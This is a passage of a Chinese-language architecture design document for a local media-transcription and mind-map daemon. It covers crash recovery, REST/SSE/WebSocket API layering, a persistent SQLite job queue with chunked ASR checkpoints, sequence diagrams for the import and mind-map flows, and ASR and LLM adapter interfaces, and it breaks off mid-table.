**A. 任务状态修复（启动时同步执行，在开始接受请求之前）**

```sql
-- 伪逻辑
对每个 state='running' 的 job：
    进程已经不在了（因为我们刚启动），所以它绝不可能真在跑
    → 若 lease_expires_at 已过期 或 worker_pid 已不存在 → state='queued', attempt 不变
    → 保留 job_steps 中已 succeeded 的步骤与 checkpoint_json  ← 续跑的依据
对每个 state='leased' 的 job → 同上
```

**B. 孤儿子进程回收**
上次记录的 `worker_pid` 若仍存活，用 `worker_started_at` 与 OS 的进程启动时间比对（防 **PID 复用**误杀）；匹配则 kill。
无法读到进程启动时间的平台（回退方案）：只在 pid 存活 **且** 该 pid 的可执行路径落在我们的受管 `bin/` 目录内时才 kill `[设计]`。

**C. 孤儿文件 GC**
- `tmp/` 每次启动整目录清空。
- `media/` 中不被任何 `media_assets` 行引用的文件 → 移入 `tmp/orphans/`，保留 7 天再删（不直接删，防误判）。
- `.partial` / `.partial.json` 由 downloader 自己认领（R-04 §6.3 已定）。

**D. daemon 自身崩溃循环保护**
崩溃计数写 `runtime/crash.json`：60 秒内连续 5 次非零退出 → 下次启动进入 **安全模式**：
只起 http + db + 静态资源，**不加载任何原生扩展、不起调度器、不 spawn 任何子进程**，UI 显示诊断页（最近日志、崩溃栈、"重置后端选择"/"禁用向量索引"/"导出诊断包"按钮）。
这直接对冲 R-01 §C11 #11（memo.ac 批量模式 300+ 视频白屏卡死，issue 开了两年）。

**E. 前端侧恢复**
SSE `EventSource` 自带重连；断线期间的事件通过 `Last-Event-ID` 从环形缓冲重放（§3.3）。
若 daemon 版本号在重连后变了 → 前端强制 `location.reload()`（避免新旧 API 混用）。

---

## §3 API 分层

> **边界声明**：本节只定**分层原则、前缀分配、信封格式、通用约束**。
> **具体 endpoint 清单、请求/响应 schema、TS 类型 → 归 T-013（`model-mgmt`，独占 `packages/shared/src/**`）。**
> 若本节与 D-03 冲突，以 D-03 为准并请 Manager 裁决。

### 3.1 前缀分配（架构级命名空间，请 T-013 认领并细化）

| 前缀 | 通道 | 承担什么 | 不承担什么 |
|---|---|---|---|
| `/api/**` | REST / JSON | **短请求**：资源 CRUD、动作触发（返回 jobId）、查询、配置读写 | 长轮询、大文件、流式输出 |
| `/api/events` | **SSE（全局唯一一条）** | **所有**服务端→客户端的异步通知：任务进度、下载进度、转写增量、LLM 流式 token、硬件/后端状态变更、日志尾巴 | 客户端→服务端（SSE 是单向的） |
| `/ws/**` | WebSocket | **仅两种**双向低延迟场景：① `/ws/recorder` 浏览器麦克风音频上行 + 实时转写下行（F3）；② `/ws/asr-worker` 浏览器作为 WebGPU ASR worker 的反向通道 —— ⚠️ **v1 不实现**（ADR-006 决策 3 已降为实验特性；`apps/daemon/src/http/ws.ts` 认得这个路由但**直接拒握手**）。当前实际只有 ① | 任何能用 REST+SSE 表达的东西 |
| `/media/**` | HTTP 字节流 | 音视频回放（**必须支持 Range**）、波形数据、缩略图、导出文件下载 | JSON |
| `/` `/assets/**` | 静态 | SPA 产物 | — |

**为什么 `/media/**` 必须独立于 REST**：`<audio>`/`<video>` 元素由浏览器发起请求，不经过我们的 fetch 封装 → 不能带 header（靠 cookie 鉴权）、必须支持 `Range`/`206`/`Accept-Ranges`/`If-Range`、需要不同的缓存头（`Cache-Control: private, max-age=…` + 强 ETag）、绝不能走 JSON 序列化。把它混进 `/api` 会污染 REST 的中间件栈（body parser、日志、错误信封全都不适用）。

**`/media/**` 的寻址规则（安全）**：只接受 **asset uid**，形如 `/media/asset/<uid>`（可选 `?variant=audio16k|thumb|peaks`）。
**绝不接受文件系统路径参数**——这从根上消灭路径穿越（§8.5）。

### 3.2 REST 分层原则

1. **薄控制器**：路由层只做 (a) 鉴权（中间件已做）、(b) 输入 schema 校验（zod/valibot，schema 来自 `packages/shared`）、(c) 调用领域服务、(d) 序列化。**零业务逻辑**。
2. **写操作一律异步化**：任何可能超过 ~200ms 的操作（导入、转写、下载、生成导图、导出）**不阻塞 HTTP**，而是：
   `POST` → 创建 job → `202 Accepted` + `{ jobId, uid }` → 进度走 SSE → 完成后前端拉最终资源。
   这条规则是任务队列可用的前提（§4）。
3. **幂等**：所有创建型 `POST` 接受可选 `Idempotency-Key` 头；重复键在 24h 内返回同一个 jobId。
   用途很实在：SSE 断线重连后前端可能重发；用户狂点按钮。
4. **列表统一 keyset 分页**（`?cursor=&limit=`），不用 offset（笔记多了 offset 会慢，且插入时会漏行）。
5. **对外 ID 一律用 ULID 字符串 `uid`**，不暴露整数主键（见 D-02 §1.1）。
6. **`GET` 必须无副作用**（有中间件断言）；`DELETE` 默认软删（`deleted_at`），`?purge=true` 才硬删。

### 3.3 SSE：全局单流 `[已定，ADR-004]`

**硬约束来源**：HTTP/1.1 对同一 origin 有 **6 个并发连接**上限。我们的预算：

```
1 × SSE（常驻）+ 1~2 × media（<audio> 可能开多条 Range 连接）+ 剩余 3~4 × REST
```

→ **每多开一条常驻流就少一个 REST 槽位**，页面会随机卡死。因此：
**全应用只有一条 `EventSource`**，所有主题复用，前端一个 reducer 分发（照抄 memo.ac 的 `renderer-message` 单通道设计，R-01 §C10 #5）。

事件信封 —— **【2026-08-02 订正批次 2：改为扁平，ADR-010 决策 2】**

```
id: 000000000000123          <- 单调递增序号（重放游标）
event: job.progress          <- 具名类型（订正 1）。⚠️ 后果：EventSource.onmessage
                                永不触发，前端必须逐类型 addEventListener（见 D-05 §2.3）
data: {"type":"job.progress","ts":"2026-08-02T…","topic":"job:01J…",
       "jobId":"01J…","step":"asr","pct":0.29,"state":"running", …}
                             ↑ 业务字段与信封字段**平铺在同一层**
```

**订正留痕**（ADR-007 决策 6 要求：写明原设计 + 订正原因，否则后人无法判断是深思熟虑还是随手改）：

| | 内容 |
|---|---|
| **原设计** | 嵌套式 `data: {type, ts, topic, payload:{…}}` —— 业务字段包在 `payload` 里 |
| **现裁定** | **扁平**：`data: {type, ts, topic, ...业务字段}` |
| **为什么改** | `packages/shared` 的实现与 D-05 的前端设计**都是扁平**，D-01 是唯一的嵌套。三处对齐时改一处成本最低（ADR-010 决策 2）。 |
| **技术上也更好** | 扁平让 `SseEvent` 成为一个**可判别联合**（discriminated union，按 `type` 收窄），TS 能直接窄化到具体 payload 类型；嵌套则需要额外的泛型参数 `SseEvent<T>` 才能表达同样的东西，且每个消费点都要多解一层。 |
| **代价** | 信封字段（`type`/`ts`/`topic`）与业务字段共享命名空间 → **业务字段不得叫这三个名字**。已在 shared 的类型里由 `SseEventBase` 约束住。 |

- **主题命名**：`域.动作[.阶段]`，如 `job.created` / `job.progress` / `job.done` / `job.failed` /
  `download.progress` / `transcribe.segment` / `mindmap.delta` / `hardware.changed` / `backend.installed` / `daemon.shutdown`。
  （命名法沿用 memo.ac 的 `域:动作:阶段`，但用 `.` 分隔以便前端做前缀匹配。）
- **节流**：进度类事件按 topic **250ms 合并**发送（memo.ac 的实测值，R-01 §B9），只保留最新值。
  **例外**：`transcribe.segment`（增量转写结果）不能丢，走无节流的有序队列。
- **重放**：内存环形缓冲保留最近 **256** 条事件（**2026-08-02 订正**：与 `packages/shared` 的 `SSE_REPLAY_BUFFER_SIZE = 256` 对齐，原写 2000）；`Last-Event-ID` 命中则从该点重放，未命中（缓冲已滚过）则下发一条 `sync.required`，前端全量重拉当前视图。缓冲较小是可接受的 —— D-05 §2.3 已设计"重连后一律全量失效"作兜底。
  → **绝不把 SSE 当作可靠数据源**：任何事件都只是"该去拉数据了"的提示，真相永远在 REST/DB。这条原则能消灭一整类"前后端状态不一致"的 bug。
- **保活**：每 15s 发一行注释 `:ka\n\n`，并设 `retry: 3000`。
- **订阅过滤**（可选）：`GET /api/events?topics=job,download`。默认全订阅。
- **单流强制**：daemon 侧对同一 session 只允许 **1 条** SSE 连接；第二条连接进来时**关闭旧的**（而不是拒绝新的）——这样浏览器刷新/复活场景才不会卡住。

### 3.4 WebSocket：只给真正需要双向的场景

| 端点 | 方向 | 载荷 |
|---|---|---|
| `/ws/recorder` | 上行：二进制音频帧（PCM16 16kHz 单声道，20~100ms 一帧）；下行：JSON `{partial|final, segment}` | F3 实时录音转写 |
| `/ws/asr-worker` | 下行：`{chunkId, audioUrl, modelId, params}`；上行：`{chunkId, segments[] , progress}` | 浏览器 WebGPU 作为 ASR worker（§6.1 L0）—— ⚠️ **v1 不实现** |

> ⚠️ **`/ws/asr-worker` 这一行是保留的协议设计，不是当前行为。** 按 **ADR-006 决策 3** 它已降级为实验特性、
> **v1 不实现**：`apps/daemon/src/http/ws.ts` 的 `WS_ROUTES` 认得这个路径，但握手直接被拒（文件里两处注释写明了）。
> 本文 TL;DR 第 3 行早已说"已降为实验特性"，**此前 §3.1 与本表没跟着同步**，看上去像个可用端点。

约束：
- 二进制帧走 `ArrayBuffer`，控制消息走 JSON 文本帧，**不混编**。
- 鉴权：握手时校验 cookie + `Origin`（WebSocket **不受 SameSite 完全保护**，必须显式校验 `Origin`，否则任意网页可发起跨源 WS —— 这是 WS 的经典坑）。
- **背压**：上行音频若积压超过 3 秒，daemon 主动丢最老的帧并下发 `overrun` 警告（实时转写宁可丢也不能无限缓冲把内存吃爆）。
- 断线 = 录音会话暂停，已落库的 segment 不丢；重连带 `sessionId` 续接。

### 3.5 通用约束

- **错误信封** —— **【2026-08-02 订正：以 `packages/shared` 的实现为准】**

  本文原提议 RFC 9457 `application/problem+json`；`model-mgmt` 在 T-013 实现的是：
  ```ts
  // packages/shared/src/api.ts（已落地）
  interface ApiErrorBody {
    error: { code: string; message: string; messageZh: string;
             retryable: boolean; details?: unknown }
  }
  ```
  **采用实现版本**，`code` 仍是稳定字符串（前端按它做 i18n 与动作，见 D-05 §5.2/§6.2）。

  ✅ **`remediation` 已补入**：`packages/shared/src/api.ts:272` 现有
  `remediation?: Remediation | null;`（同文件 `:258` 的 `ApiErrorBody`，注释写明形状是
  `{error:{code,message,messageZh,retryable,remediation}}`），由 **ADR-007 决策 2 批准**。
  它不是锦上添花 —— **章程要求 2.1「用户不碰命令行」直接依赖它**。
  ⚠️ **此前这一段写着"但缺一个字段：原设计的 `remediation: {action, params}` 没有对应物…该文件归 `model-mgmt` 独占，需 Manager 协调" —— 已补，无需协调**（D-05 §8 差异 2 同步关闭）。
- **版本化**：路径前缀 `/api`（**订正**：原写 `/api/v1`；实现无版本段）。
  版本职责由 `packages/shared` 的 `CONTRACT_VERSION` 承担 —— 前端启动时比对，不匹配则阻断并提示刷新。
  破坏性变更升 `CONTRACT_VERSION`；只有在需要新旧并存时才引入路径版本段。
- **内容协商**：一律 UTF-8 JSON；不支持 XML/msgpack（省事，本地场景没必要）。
- **时间**：所有时间戳 ISO-8601 UTC 字符串；**媒体时间一律用毫秒整数 `*_ms`**，不用浮点秒（浮点秒在字幕对齐上会累积误差且不能做主键/索引比较）。
- **限流**：本地场景不做全局限流，但对**外网出站**（LLM 调用、下载）做并发限制（§4.2 lane）。

---

## §4 任务队列设计

### 4.1 模型：Job / Step / Chunk 三层 `[设计]`

```
Job（用户可见）        "导入 https://… 并转写"
 └─ Step（可续跑单元）  fetch → probe → demux → vad → asr → diarize → structure → index
     └─ Chunk（细粒度） asr 步骤内部按 VAD 切出的 N 个音频块，逐块推理、逐块落库
```

**为什么必须有 Chunk 这一层**（这是整套设计的关键技巧）：
转写可能跑几十分钟。若把 `asr` 当作不可分割的原子步骤，则：取消要等它跑完 / 崩溃要从头再来 / 进度只能靠猜 / 优先级无法插队。
把它按 VAD 边界切块后，**一个 chunk 完成 = 一次事务落库 = 一个抢占点 = 一个续跑点 = 一次真实进度**。四件事一次解决。
副作用还有两个：用户能**边转边看**（第一段文字几秒内就出现，体验质变），以及**幻觉/重复检测**可以按块做并只重跑坏块（对冲 R-01 §C11 #7）。

**Job 状态机**

```
                    ┌──────────────────────────────────────────────┐
                    │                                              │
  create ──> queued ──> leased ──> running ──┬──> succeeded        │
              ▲  ▲                  │  │     │                     │
              │  │      pause ──────┘  │     ├──> failed ──retry?──┘
              │  └── paused ──resume───┘     │      (attempt<max → next_run_at 退避)
              │                              └──> cancelled
              └── blocked ──(依赖满足)────────┘
```

| 状态 | 含义 | 谁能转出 |
|---|---|---|
| `queued` | 等待 lane 空槽 | 调度器 |
| `blocked` | **缺前置条件**（模型未装 / 后端未装 / 磁盘不足 / 未配 API Key），带 `blocked_code` + `remediation` | 条件满足事件 或 用户操作 |
| `leased` | 已分配 worker，尚未真正开始（短暂） | worker |
| `running` | 执行中，持续续租 | worker / 用户 |
| `paused` | 用户暂停或 daemon 优雅退出，**checkpoint 完好** | 用户 resume |
| `succeeded` / `failed` / `cancelled` | 终态 | — |

`blocked` 是产品级重要状态：memo.ac 在缺后端时直接失败并报一段英文错误；我们让它变成一个**可点击修复**的等待态。

### 4.2 并发控制：资源 lane 信号量 `[设计]`

不设"全局并发数"（那是错的抽象——下载和 GPU 推理抢的根本不是同一种资源），改为**按资源类别的信号量池**，每个 step 声明它占用哪个 lane：

| lane | 默认并发 | 依据 | 说明 |
|---|---|---|---|
| `net.download` | 2 | 家用带宽 | 单个下载内部再分 4 片（R-04 §6.3 已定，不抄 Ollama 的 16） |
| `net.llm` | 2 | 云 API 速率 | 可在设置里调；本地 llama 走 `gpu.llm` 而非这里 |
| `cpu.media` | `clamp(cores/4, 1, 4)` | ffmpeg 自己会吃多核 | 转码/抽音轨/波形 |
| `gpu.asr` | **1** | **显存不可超卖** | whisper/sherpa 推理。即使 CPU 后端也保持 1，避免线程互相踩踏 |
| `gpu.llm` | **1** | 同上 | 本地 llama-server；与 `gpu.asr` **互斥**（见下） |
| `io.local` | 4 | 磁盘 | 文件拷贝、哈希、解压、索引写入 |

- **`gpu.asr` 与 `gpu.llm` 互斥**：同一块卡上同时跑 whisper large 和 8B LLM 会 OOM。用一个更粗的 `gpu.exclusive` 信号量（并发 1）把两者串起来 `[设计]`。若探测到多 GPU，按 `device_index` 分池 `[设计，未验证]`。
- lane 容量随硬件探测结果**动态调整**（`hardware.changed` 事件触发重算）。
- **CPU 后端下调低 `gpu.asr` 优先级**：whisper.cpp CPU 推理会吃满所有核，导致 UI 卡（daemon 自己也变慢）→ Unix 上用 `nice(10)` 启动子进程；Windows 用 `BELOW_NORMAL_PRIORITY_CLASS` `[设计，待实现验证]`。

### 4.3 优先级与插队

`priority INTEGER`（小 = 先跑）：

| 值 | 语义 |
|---|---|
| 0 | **交互式**：用户当前正在看的笔记触发的操作（点"重新转写这一段"、录音实时流） |
| 10 | 普通：单个导入 |
| 20 | 批量：一次拖入 50 个文件 / RSS 批量订阅 |
| 30 | 后台维护：索引重建、缩略图补齐、GC |

- 调度顺序：`state='queued' AND next_run_at<=now AND blocked=0` → `ORDER BY priority ASC, created_at ASC`。
- **前台自动提优先级**：前端在打开某笔记时发 `POST /api/notes/{uid}/focus`，daemon 把该笔记未完成的 job 的 `priority` 临时降到 0。这是很小的实现成本换很大的体感提升。
- **不做硬抢占**（kill 正在跑的推理会丢算力）。抢占只在 **chunk 边界**发生：worker 每完成一个 chunk 就问一次调度器"有没有 priority 更高的在等"，有则主动让出 lane（自己转 `queued`，保留 checkpoint）。这就是 §4.1 要 chunk 层的第二个理由。

### 4.4 暂停 / 取消 `[设计]`

| 操作 | 机制 | 子进程 | checkpoint |
|---|---|---|---|
| **暂停** | `paused=1` → worker 在 chunk 边界停 | `SIGTERM`（宽限 5s→`SIGKILL`） | **保留**，`resume` 从下一 chunk 继续 |
| **软取消**（默认） | `cancel_requested=1` → 同上 | 同上 | 丢弃；已落库的部分结果**保留**并标记 `partial`（用户能看到已转写的部分，不做全有全无） |
| **硬取消**（用户点"立即停止"） | 立即 `SIGKILL` 进程组 | 立即 | 丢弃当前 chunk |
| **删除笔记** | 级联取消其所有 job | 同硬取消 | 全部清理 + 文件 GC |

- **取消必须是可见的**：置位后 200ms 内 SSE 推 `job.cancelling`，UI 立刻变灰，不让用户以为没点上。
- **下载的取消保留 `.partial`**（R-04 §8.7 已定），下次 pull 续传。

### 4.5 崩溃后续跑 `[设计]`

三重保障：

1. **Step 级**：`job_steps.state='succeeded'` 的步骤永不重跑。产物路径记在 `checkpoint_json` 里，重启后校验文件存在 + 大小/哈希匹配（不匹配则该 step 降级为 `queued` 重跑）。
2. **Chunk 级**：`asr` 步骤的 checkpoint 是 `{ totalChunks, doneChunkIds:[…], lastEndMs }`；已落库的 `transcript_segments` 就是最强的 checkpoint —— 重启后按 `MAX(end_ms)` 就知道该从哪继续，**checkpoint_json 只是加速用的缓存，DB 里的段落才是真相**。
3. **Plan 版本**：每个 job 记 `plan_version`。若应用升级后 job plan 变了（步骤增删/顺序变），旧 job 的 step 索引会错位 → 检测到 `plan_version` 不匹配时，**不按 step 索引续跑**，改为按**产物存在性**重新推导进度（fetch 产物在？→ 跳过 fetch；音轨在？→ 跳过 demux；…）。这条规则让"升级不会毁掉进行中的任务"。

### 4.6 持久化与 lease

- 队列**完全持久化在 SQLite**（表定义见 D-02 §1.7）。不做内存队列 + 定期落盘（那在崩溃时必丢）。
- **lease**：`lease_owner`（instanceId）+ `lease_expires_at`。worker 每 10s 续租 30s。
  单进程 daemon 里 lease 看似多余，但它解决两个真实场景：(a) daemon 重启后判定"这个 job 真的没人在跑"；(b) 未来若拆出独立 worker 进程，队列语义不用改。
- **`job_events` 表**做审计与 UI 时间线（"12:03 开始下载 / 12:05 下载失败重试 1/3 / …"）。这是排障的生命线，也是 SSE 重放缓冲的持久化后备。

### 4.7 重试策略

| 错误类别 | 例子 | 重试 |
|---|---|---|
| 瞬时 | 网络超时、5xx、连接重置、`EBUSY` | ✅ 指数退避 `min(2^n × 2s, 5min)`，max 5 次，带 ±20% 抖动 |
| 资源不足 | 磁盘满、显存 OOM | ⚠️ 转 `blocked`，不盲目重试；OOM 时**自动降级重试一次**（换更小量化 / 换 CPU 后端）并告知用户 |
| 永久 | 404/403、格式不支持、SHA256 不符、参数非法 | ❌ 直接 `failed`，给 remediation |
| 已知反爬 | yt-dlp 返回需要登录/年龄验证 | ❌ `failed` + remediation="使用浏览器 cookie" 或 "改用本地文件导入" |

---

## §5 F1–F5 端到端时序

> 图为 mermaid `sequenceDiagram`（GitHub 原生渲染）。`SP` = SubprocessRunner。
> 所有 `SSE` 箭头都走**同一条**全局流（§3.3）。

### F1 链接导入：URL → yt-dlp → ffmpeg → VAD → ASR → 结构化 → 落库

```mermaid
sequenceDiagram
    autonumber
    participant U as 浏览器 SPA
    participant API as daemon /api
    participant Q as 调度器
    participant W as pipeline worker
    participant SP as SubprocessRunner
    participant DB as SQLite

    U->>API: POST /import/url {url, options}
    API->>API: URL 白名单校验（scheme/host/私网/凭据）§8.4
    API->>DB: 建 note(草稿) + media_source + job(type=import.url, plan v1)
    API-->>U: 202 {jobUid, noteUid}
    Note over U,API: 之后所有进度都从全局 SSE 来

    Q->>W: 领取 job（lane=net.download）
    W->>SP: yt-dlp --dump-single-json -- <url>   [probe，不下载]
    SP-->>W: {title, duration, formats[], thumbnail, uploader}
    W->>DB: 更新 media_source 元数据 + note.title
    W-->>U: SSE job.progress {step:"probe", pct:5}

    W->>SP: yt-dlp -f bestaudio --paths <tmp> -o <常量模板> -- <url>
    loop 下载中
        SP-->>W: stdout 进度行（解析）
        W-->>U: SSE job.progress {step:"fetch", pct}  (250ms 节流)
    end
    SP-->>W: exit 0 → 原始媒体文件
    W->>DB: media_assets(role=original) + step[fetch]=succeeded

    W->>SP: ffmpeg -i <src> -vn -ac 1 -ar 16000 -c:a pcm_s16le <out.wav>
    SP-->>W: exit 0
    W->>DB: media_assets(role=audio16k) + step[demux]=succeeded
    par 并行
        W->>SP: ffmpeg 生成波形峰值 + 缩略图
    and
        W->>W: VAD（silero, sherpa-onnx）切分
    end
    W->>DB: 切分结果写 checkpoint {totalChunks:N}
    W-->>U: SSE job.progress {step:"vad", chunks:N}

    loop 每个 chunk（抢占点 / 续跑点 / 进度点）
        W->>SP: whisper-cli --model <m> --offset --duration ... （或 sherpa）
        SP-->>W: segments[{start,end,text,...}]
        W->>DB: BEGIN; insert transcript_segments; update checkpoint; COMMIT
        W-->>U: SSE transcribe.segment {segments}   ← 用户边转边看
        W->>Q: 询问是否需让出 lane（高优先级插队 / 暂停 / 取消）
    end
    W->>DB: transcript.status=done; step[asr]=succeeded

    opt 说话人分离（可选，需模型）
        W->>SP: sherpa-onnx diarization
        W->>DB: speakers + segments.speaker_id
    end

    W->>W: 结构化（LLM 适配层，见 F4）→ summary + MindMapDoc
    W->>DB: notes.summary + mindmaps + mindmap_nodes(+refs)
    W->>DB: FTS5 + 向量索引（触发器 + 后台 embed job）
    W-->>U: SSE job.done {noteUid}
    U->>API: GET /notes/{noteUid}
```

**关键点**
- `probe` 与 `fetch` 分成两个 yt-dlp 调用：先拿元数据（秒级）就能让 UI 立刻显示标题/时长/封面，用户不用盯着空白等；也让"格式不支持/需要登录"这类失败**提前**暴露。
- 只抽音轨（`-vn`），不下整段视频，除非用户勾选"保留视频"。这能省掉绝大部分带宽与磁盘。
- 转写用 **16kHz / 单声道 / PCM16** —— whisper.cpp 与 sherpa 的原生输入格式，避免它们内部再转一次。

### F2 本地媒体导入



**关键点**
- **为什么要分块上传而不是一次 `multipart/form-data`**：用户会拖 2GB 的会议录像。一次性上传无法显示进度、无法续传、且 Node 的 body parser 会把它缓冲进内存。分块 + 直接写盘是唯一可行解。
- **"文件已在本地为什么还要上传"**：因为浏览器沙箱拿不到文件路径。**例外**：提供一个"从磁盘路径导入"入口（用户手输/粘贴路径，或未来 Tauri 外壳提供原生选择器），走 `POST /import/path`，但该路径必须经 §8.5 的受管根校验或用户显式授权目录白名单 `[设计]`。
- 已是标准格式则**跳过转码**——ffprobe 一次就能判定，省掉大文件的一次全量重写。

### F3 录音转文字（流式）



**关键点**
- **partial 不落库**，只有 final 段落进 DB。否则 DB 会被高频半成品写爆，且 undo 语义混乱。
- **双写**：ASR 走裸 PCM（低延迟），存档走 `MediaRecorder` 压缩流（省空间）。二者时间基准用同一个 `performance.now()` 起点对齐 `[设计，未验证时钟漂移量]`。
- **两阶段转写**（流式 → 离线重跑）是产品质量的关键：流式模型（zipformer/paraformer streaming）延迟低但准确率明显低于 whisper large。录完自动重跑一遍，用户既得到了实时反馈，又得到了高质量最终稿。**重跑结果覆盖时保留用户已做的编辑**（按段落 diff，只覆盖未编辑段）`[设计]`。
- 麦克风权限依赖 origin 稳定 → 见 §2.2 端口稳定性论证。
- 浏览器不支持 `AudioWorklet` 时降级 `ScriptProcessorNode`（已废弃但兼容面广）`[设计]`。

### F4 思维导图生成

```mermaid
sequenceDiagram
    autonumber
    participant U as 浏览器 SPA
    participant API as daemon
    participant W as structure worker
    participant LLM as LLM 适配层
    participant MM as packages/mindmap
    participant DB as SQLite

    U->>API: POST /notes/{uid}/mindmap {promptTemplateId?, modelId?}
    API->>DB: job(type=structure.mindmap, lane=net.llm|gpu.llm)
    API-->>U: 202 {jobUid}

    W->>DB: 读 transcript_segments（含时间戳）
    W->>W: 分块：按 token 预算切成窗口（重叠 10%），每块携带 [startMs,endMs]
    loop 每个窗口（长音频必然多轮）
        W->>LLM: chat(structuredOutput=MindMapNodeDraft[] , 强制 JSON Schema)
        LLM-->>W: 流式 token
        W-->>U: SSE mindmap.delta {partialTree}   ← 渐进渲染，不干等
    end
    W->>W: 合并各窗口 → 去重 → 层级归并（相同主题合并，保留 refs 并集）
    W->>MM: normalize() → MindMapDoc（库无关 schema，D-02 §2）
    W->>MM: validate()（环检测、孤儿节点、深度上限、文本长度上限）
    W->>DB: BEGIN; mindmaps + mindmap_nodes + mindmap_node_refs + mindmap_edges; COMMIT
    W-->>U: SSE job.done {mindmapUid}

    U->>API: GET /mindmaps/{uid}
    API-->>U: MindMapDoc
    U->>U: 渲染适配层：mind-elixir（默认，可编辑）
    opt 用户切换只读视图
        U->>U: toMarkdown(doc) → markmap.transform() → 渲染
    end
    U->>U: 用户拖拽/改文字（本地乐观更新）
    U->>API: PATCH /mindmaps/{uid} {ops:[…]}   ← 发操作而非全量文档
    API->>DB: 应用 ops（每个 op 一行 mindmap_nodes 变更）
    API-->>U: {revision}
    Note over U,API: 冲突用 revision 号乐观锁；<br/>本地单用户场景冲突只可能来自"LLM 重生成 vs 用户在编辑"，<br/>此时提示用户选择保留哪份，不静默覆盖
```

**关键点**
- **LLM 必须走强制结构化输出**（JSON Schema / tool call），不要让它吐 Markdown 再解析——R-01 §A2.4 记录 memo.ac 自陈"72B 以下模型思维导图转换有问题"，本质就是自由文本解析太脆。
- **每个节点携带 `refs`（时间区间）** 是我们相对 memo.ac 的关键差异：点导图节点能跳到音频对应位置（F5 联动）。要做到这点，喂给 LLM 的每段文本前必须带 `[mm:ss]` 标记，并要求它在输出里回填 `startMs/endMs`。回填不可信 → daemon 侧用**文本相似度回溯匹配**到实际 segment 校正 `[设计，未验证匹配准确率]`。
- **PATCH 发操作而非全量**：一张几百节点的导图全量 PUT 会让"谁改了什么"不可追踪，且与 LLM 增量生成冲突。
- 无 LLM 可用时的降级见 §7.2。

### F5 笔记与时间轴联动



**关键点**
- **波形必须预计算**（`role=peaks` 的二进制 asset）。在浏览器里 `decodeAudioData` 一个 2 小时的文件会占几百 MB 内存并卡死主线程。
- **区间查找用二分而非线性扫描**：一场 3 小时讲座可能有 3000+ 段，每帧线性扫会掉帧。
- **搜索结果直达时间点**是 F5 的杀手级体验，也是"转写稿 ↔ 时间轴"数据结构的最终检验标准（D-02 §3）。
- 媒体鉴权靠 cookie（§2.4），因为 `<audio src>` 带不了 header。

---

## §6 适配层设计

**通用形态**：每类适配层都是 `Registry<T>` + 统一接口 + 能力声明。

```ts
// 设计示意；实际类型定义位置见各小节标注
interface Adapter {
  readonly id: string;                    // 稳定标识，进 DB/设置
  readonly kind: 'asr' | 'llm' | 'mindmap-render' | 'media-source';
  capabilities(): Promise<Capabilities>;  // 运行时探测，可能变化
  isAvailable(): Promise<AvailabilityStatus>; // {ok} | {missing, remediation}
}
```

**共同硬规则**（ADR-001 §配套 2：禁止第三方 API 泄漏到业务代码）：
- 业务代码只能 import 适配层接口，**不得 import 任何第三方 ASR/LLM/渲染库**。这是**约定（尚未机器强制）**。⚠️ **此前写着"CI 用 `eslint no-restricted-imports` 强制（规则清单交 T-011/T-012 落地）" —— `eslint.config.js` 里没有这条规则**；该文件里的 `no-restricted-imports` 只有三处（`:64`/`:86`/`:104`），全是 D-05 §3.5 的前端分层护栏（`features/A` 不得 import `features/B`、`lib/`+`components/` 不得依赖 `features/`），与 ASR/LLM/渲染库无关。
- 适配层的**数据结构必须是我们自己的**（`TranscriptSegment`、`MindMapDoc`…），不得直接透传上游的结构体。

### 6.1 ASR 适配层

```ts
interface AsrEngine extends Adapter {
  capabilities(): Promise<{
    modes: ('batch' | 'stream')[];
    backends: BackendId[];            // cuda|vulkan|rocm|metal|coreml|cpu|webgpu
    languages: string[] | 'auto';
    wordTimestamps: boolean;
    diarization: boolean;
    maxAudioSeconds?: number;
  }>;
  transcribeChunk(req: {
    audioPath: string; offsetMs: number; durationMs: number;
    modelId: string; language?: string; prompt?: string;
    signal: AbortSignal; onProgress(p: number): void;
  }): Promise<TranscriptSegment[]>;              // batch
  openStream(req: StreamReq): AsrStream;         // stream: write(pcm) / on('partial'|'final')
}
```

| 实现 | 进程位置 | 覆盖 | 说明 |
|---|---|---|---|
| `WhisperCppEngine` | **子进程** `whisper-cli`（或常驻 `whisper-server`） | batch，全后端 | 主力。ADR-003 决定自建 CI 产二进制。常驻 server 模式省掉每 chunk 的模型加载（大模型加载要数秒），**但 server 必须 `--host 127.0.0.1`** |
| `SherpaOnnxEngine` | 子进程（Node 侧 runner，`sherpa-onnx-node`） | **stream** + VAD + 说话人分离 | 副引擎。F3 的实时路径唯一选择 |
| `BrowserWebGpuEngine` | **浏览器 Web Worker**（transformers.js） | batch，零安装 | L0 兜底。见下 |

**`BrowserWebGpuEngine` 的架构处理（本文最非常规的一处设计）**

模型跑在浏览器里，但任务队列在 daemon 里。让二者共存的办法是**反向 worker**：

```
浏览器打开 → Web Worker 初始化 WebGPU → 连 /ws/asr-worker → 注册 {engineId, capabilities}
daemon 侧 BrowserWebGpuEngine 变为"可用"
调度器把 chunk 派给它 → 浏览器下载 /media/asset/{uid}?range=chunk → 推理 → 回传 segments
浏览器标签页关闭 → WS 断开 → 该引擎变"不可用" → 正在跑的 job 自动转 paused（不丢已完成 chunk）
```

- **收益**：用户第一次打开产品，**什么都不用装**就能试用转写（ADR-003 决策 3 的 L0 档真正落地）。
- **代价**：任务与标签页生命周期绑定；速度受限于浏览器 WebGPU。
- **诚实标注**：`[未验证]` —— transformers.js 的 WebGPU whisper 在各浏览器的实际可用性与速度我**没有测过**，不编数字。这条路径必须在 Wave 3 做 spike，失败则 L0 降级为"仅演示用的 tiny 模型"或直接砍掉，**不影响 L1/L2 主路径**。

**引擎选择策略**（每次转写前）：
`用户显式指定 > 设置里的默认 > 自动`。自动 = 需要 stream 则 sherpa；否则 whisper.cpp（按已装最优后端）；都不可用则 browser-webgpu；再不行 → job 转 `blocked` 并给"安装 CPU 后端"的 remediation。

### 6.2 LLM 适配层

```ts
interface LlmProvider extends Adapter {
  capabilities(): Promise<{
    streaming: boolean; structuredOutput: 'json_schema'|'json_mode'|'none';
    toolUse: boolean; contextWindow: number; vision: boolean;
  }>;
  chat(req: {
    messages: ChatMessage[]; schema?: JsonSchema;   // 有 schema 则强制结构化输出
    maxTokens?: number; temperature?: number;
    signal: AbortSignal; onDelta?(t: string): void;
  }): Promise<ChatResult>;
  embed(req: { texts: string[]; modelId: string }): Promise<Float32Array[]>;
}
```

**关键简化：只需要两个实现。**

| 实现 | 覆盖的后端 |
|---|---|
